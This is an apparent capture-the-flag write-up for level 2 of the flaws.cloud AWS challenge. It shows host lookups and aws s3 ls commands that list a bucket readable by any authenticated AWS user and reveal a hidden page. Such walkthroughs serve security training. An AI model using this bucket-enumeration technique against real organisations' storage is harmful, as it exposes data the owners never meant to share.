 # Level - 2

**The next level is fairly similar, with a slight twist. You're going to need your own AWS account for this. You just need the [free tier](https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/).**

The clue here is to use our AWS account. 

Similar to the first challenge I will be running the host command on the url of Level-2

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# host level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud 
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.190.235
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.162.219
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.202.155
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.218.132.50
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.133.107
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.205.43
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.186.211
level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud has address 52.92.227.163
```

We again note that this is still a static website hosted on the S3 bucket and we can try the aws cli command we tried earlier to list the subdomains

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --no-sign-request

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

This time we encountered a error stating Access denied.

We checked by removing the —no-sign-request flag and trying to list the buckets

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud                  

Unable to locate credentials. You can configure credentials by running "aws configure".
```

We can see that the command is requesting for credentials. We can proceed to create a AWS free tier account for this level and configure the credentials. Create a IAM user with Permissions “[AmazonS3FullAccess](https://us-east-1.console.aws.amazon.com/iam/home?region=us-east-2#/policies/details/arn%3Aaws%3Aiam%3A%3Aaws%3Apolicy%2FAmazonS3FullAccess)”  and generate access keys. Set the Access key into the aws cli.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws configure                                                     
AWS Access Key ID [****************7QG6]:     
AWS Secret Access Key [****************IgWd]: 
Default region name [None]: 
Default output format [None]:
```

We can see that we have configured our aws cli with the access key.

Next we can now use the same command and note that we found “secret-e4443fc.html”.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/flaws.cloud]
└─# aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 21:02:15      80751 everyone.png
2017-03-02 22:47:17       1433 hint1.html
2017-02-26 21:04:39       1035 hint2.html
2017-02-26 21:02:14       2786 index.html
2017-02-26 21:02:14         26 robots.txt
2017-02-26 21:02:15       1051 secret-e4443fc.html
```

We can proceed to our newly found domain and proceed to level-3 using the url [http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html](http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html).

![Untitled](Level%20-%202%205100426b338148f09af2ff6bdb99bb6b/Untitled.png)

# References

[1] [https://docs.aws.amazon.com/IAM/latest/UserGuide/id_users_create.html](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_users_create.html)
[2] [https://docs.aws.amazon.com/cli/latest/userguide/welcome-examples.html](https://docs.aws.amazon.com/cli/latest/userguide/welcome-examples.html)
